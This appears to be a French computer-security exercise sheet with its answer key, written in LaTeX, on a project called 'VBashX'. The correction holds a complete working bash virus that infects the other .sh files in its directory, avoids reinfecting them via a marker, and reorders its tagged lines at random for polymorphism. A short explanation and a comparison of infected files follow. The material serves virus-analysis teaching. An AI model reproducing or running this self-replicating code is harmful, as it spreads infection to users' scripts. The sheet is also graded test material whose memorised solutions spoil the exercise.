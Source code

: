 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{enumerate}
\item[\textbf{4d)}] Parmi les 3 stratégies de Phase 2, lesquelles fonctionnent encore avec le polymorphisme ? Justifier.
\end{enumerate}

\begin{correction}

\textbf{4a+4b)} Le virus complet avec polymorphisme par réordonnancement :
\begin{lstlisting}[title=vbashx\_phase4.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Restoration --- VBX_7k9Pz
REST_SIZE=11
LI=16
VIRUS_SIZE=$(($REST_SIZE + $LI))
TMP=".vbx_tmp.sh"
echo "#!/bin/bash" > $TMP
echo "SRC=\"$0\"" >> $TMP
nb=1; while [ $nb -le $LI ]; do
grep "#@${nb}#" "$0" >> $TMP
nb=$(($nb + 1)); done
chmod +x $TMP && ./$TMP; rm -f $TMP; exit 0
MARKER="VBX_7k9Pz" #@1#
for f in *.sh; do #@2#
if [ "$(basename "$f")" != "$(basename "$SRC")" ]; then #@3#
if [ -z "$(grep "$MARKER" "$f")" ]; then #@4#
REST_S=11; LI_S=16; VS=$(($REST_S + $LI_S)) #@5#
tail -n $VS "$SRC" | head -n $REST_S >> "$f" #@6#
r=$(( ($RANDOM % 16) + 1 )) #@7#
n=1 #@8#
while [ $n -le $LI_S ]; do #@9#
grep "#@${r}#" "$SRC" >> "$f" #@10#
r=$(( ($r * 3) % 17 )) #@11#
n=$(($n + 1)) #@12#
done #@13#
fi #@14#
fi #@15#
done #@16#
\end{lstlisting}

\textbf{Explication du code :}
\begin{itemize}
    \item \textbf{Lignes 3--13} (code de restauration, non tagué) : extrait les 16 lignes taguées dans l'ordre (1, 2, \ldots, 16), les écrit dans \texttt{.vbx\_tmp.sh} avec le chemin source, exécute ce fichier, puis termine par \texttt{exit 0}.
    \item \textbf{Lignes 14--29} (code d'infection, tagué \texttt{\#@1\#} à \texttt{\#@16\#}) : ces lignes sont en ordre quelconque dans le fichier mais le code de restauration les remet en ordre avant exécution. Elles vérifient la surinfection, copient le code de restauration dans la cible, puis ajoutent les lignes taguées dans un ordre aléatoire via la formule $r \leftarrow (r \times 3) \bmod 17$.
\end{itemize}

\textbf{4c)} En comparant deux fichiers infectés, on constate que les lignes taguées sont dans un \textbf{ordre différent} (le germe aléatoire \texttt{\$RANDOM} est différent à chaque exécution). Le code de restauration, en revanche, est \textbf{identique} dans tous les fichiers infectés.


\end{correction}
\end{exercice}
\end{document}
